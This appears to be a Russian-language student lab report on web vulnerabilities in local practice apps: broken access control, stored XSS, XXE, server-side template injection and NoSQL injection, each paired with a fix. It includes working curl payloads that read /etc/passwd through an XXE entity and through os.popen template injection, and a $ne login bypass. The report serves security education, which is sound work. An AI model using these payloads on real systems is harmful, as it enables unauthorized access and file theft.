



## Broken Access Control

Broken Access Control - это уязвимость, которая позволяет пользователю получить
доступ к данным или функционалу без наличия соответствующих прав.

Заметим, что для получения статистики пользователя, посылается GET-запрос на
сервер с cookie, содержащей сессию, а также передается query-параметр с именем
пользователя, статистику которого мы хотим получить.

```shell
#!/bin/bash

# rootroot is a first user, which have played some games
# and current user will try to sniff his statistics
session_cookie=$(
    curl -X POST "http://localhost:10005/login" \
        -H "Content-Type: application/json" \
        -d '{"username":"aboba","password":"aboba"}' \
        -i --silent | \
        grep -i set-cookie | \
        cut -d ' ' -f2
)

curl -X GET "http://localhost:10005/statistics/data?user=rootroot" \
     -H "Cookie: $session_cookie" \
     --silent | jq
     
# decoding the jwt session token to prove that
# it's not a rootroot user session
echo "$session_cookie" | awk -F '=' '{print $2}' | cut -d '.' -f2 | base64 -d | jq
```

```json
{"chartData":[{"y":100,"label":"Wins"},{"y":0,"label":"Ties"},{"y":0,"label":"Loses"}],"numbers":{"games":5,"wins":5,"ties":0,"loses":0}}
{"username":"aboba","iat":1710540136,"exp":1710543736}
```

В качестве решения данной проблемы можно использовать проверку прав доступа
к данным на сервере.

## Cross-Site Scripting (XSS)

Cross-Site Scripting - это уязвимость, которая позволяет злоумышленнику
внедрить вредоносный код на страницу, который будет исполняться в браузере
пользователя.

Создадим новый пост и вставим в него `<script>alert(1)</script>`. После этого
попробуем открыть этот пост и увидим, что у нас появился alert.

<div align="center" style="display: flex; flex-direction: row; justify-content: center;">
    
    
</div>

Вместо `alert(1)` можно вставить любой другой код, который будет исполняться
в браузере пользователя.

Например, можно вставить скрипт, который будет воровать cookie пользователя и
отправлять их на сервер злоумышленника, клиент даже не узнает об этом.

В качестве решения данной проблемы нужно проводить валидацию входных данных
и экранировать специальные символы, использовать соответствующие заголовки
для определения формата данных - `Content-Type` и `Content-Security-Policy`
для указания разрешенных источников загрузки ресурсов.

## Security Misconfiguration (XXE)

Security Misconfiguration - это уязвимость, которая позволяет злоумышленнику
получить доступ к конфиденциальной информации, такой как файлы, данные из БД
или другие данные, которые не должны быть доступны для него.

Для начала нужно понять структуру XML-файла, который мы будем отправлять на
сервер. Для этого воспользуемся функционалом на сайте для отправки сообщения,
но перед этим пропишем в консоли `window.onbeforeunload = function() { return true }`,
чтобы страница не перезагружалась после отправки сообщения.

Получаем структуру XML-файла, который отправляется на сервер.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<contact>
	<name></name>
	<email></email>
	<subject></subject>
	<message>undefined</message>
</contact>
```

В ответе сервера можно заметить, что он возвращает нам сообщение в формате:

```text
Thanks for message, $name !
```

Теперь, когда мы знаем структуру XML-файла и ответа сервера, мы можем
попробовать внедрить вредоносный код в XML-файл.

Для чтения файлов с сервера, создадим custom entity, которая будет ссылаться
на файл `/etc/passwd`.

Таким образом, мы можем получить доступ к любому файлу на сервере, к которому
у нас есть права на чтение.

```shell
curl -X POST "http://localhost:10004/contact.php" \
     -H "Content-Type: application/xml" \
     -d '<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
    <!ENTITY hacker SYSTEM "file:///etc/passwd">
]>
<contact>
    <name>&hacker;</name>
    <email>hackerman@gmail.com</email>
    <subject>hacking</subject>
    <message>hacked</message>
</contact>' \
     --silent
```

В качестве решения данной проблемы нужно проводить валидацию входных данных,
либо перейти на более безопасные форматы передачи данных, JSON, ProtoBuf, etc, а также
запуск приложения не от root-пользователя.

## Server Side Injection (SSI)

Server Side Injection - это уязвимость, которая позволяет злоумышленнику
выполнить произвольный код на сервере.

Для начала нужно понять, как работает приложение. Для этого отправим запрос
на сервер с параметром `name` и посмотрим, что он нам вернет.

```shell
curl "http://localhost:10001?name=aboba"
```

В ответ получим html-страницу, в которой нас приветствуют.

Скорее всего со стороны приложения используются шаблонизаторы.

Попробуем вставить в параметр `name` выражение, которое будет умножать строку на 2 и
обернем их в двойные фигурные скобки, чтобы сэмулировать работу шаблонизатора.

Воспользуемся [Online URL Encoder](https://www.urlencoder.org/) для корректной обработки
символов шаблонизатором.

```shell
# {{ 5 * 2 }}
curl "http://localhost:10001?name=%7B%7B%205%20%2A%202%20%7D%7D"
```

Получаем в ответ `10`, что говорит о том, что на сервере выполняется произвольный
код, который передается в параметре `name`.

Теперь, когда мы знаем, что на сервере выполняется произвольный код, мы можем
попробовать получить доступ к файлам на сервере.

Для этого воспользуемся командой `os.popen` в Python, которая позволяет
выполнять произвольные команды на сервере.

```shell
# {{ os.popen('cat /etc/passwd').read() }}
curl "http://localhost:10001?name=%7B%25%20import%20os%20%25%7D%7B%7B%20os.popen%28%27cat%20%2Fetc%2Fpasswd%27%29.read%28%29%20%7D%7D"
```

В качестве решения данной проблемы нужно проводить валидацию входных данных,
а также запускать приложения не от root-пользователя.

## NoSQL Injection

NoSQL Injection - это уязвимость, которая позволяет модифицировать запрос к
БД таким образом, чтобы получить доступ к данным, к которым у нас нет прав.

`$ne` и `$gt` - это операторы, которые используются в MongoDB для сравнения
значений.

> `$ne` = not equal
>
> `$gt` = greater than

Заметим, что для логина используется запрос, который получает всех пользователей
с такими же `email` и `password`, что и в запросе.

```javascript
await User.find({$and: [ { email: email}, { password: password} ]});
```

Создадим парочку пользователей для иллюстрации уязвимости.

```shell
for i in {1..10}; do
    curl -X POST "http://localhost:10001/register" \
         -H "Content-Type: application/json" \
         -d "{\"email\":\"aboba-$i@gmail.com\",\"password\":\"aboba\",\"name\":\"aboba$i\"}" \
         --silent
done
```

Таким образом, если мы используем операторы `$ne` или `$gt` относительно пустой
строки, то мы получим всех пользователей из БД.

```shell
curl -X POST "http://localhost:10001/login" \
     -H "Content-Type: application/json" \
     -d '{"email": {"$ne": ""}, "password": {"$ne": ""}}' \
     --silent
```

Для решения данной проблемы нужно производить sanitization (очистку) входных
данных или перейти со скриптовых языков программирования на типизированные
языки программирования, такие как Go, Rust, C++, etc.

## Выводы

В ходе выполнения данной работы были изучены несколько популярных уязвимостей
при работе с веб-приложениями, причины их возникновения и способы защиты от них.
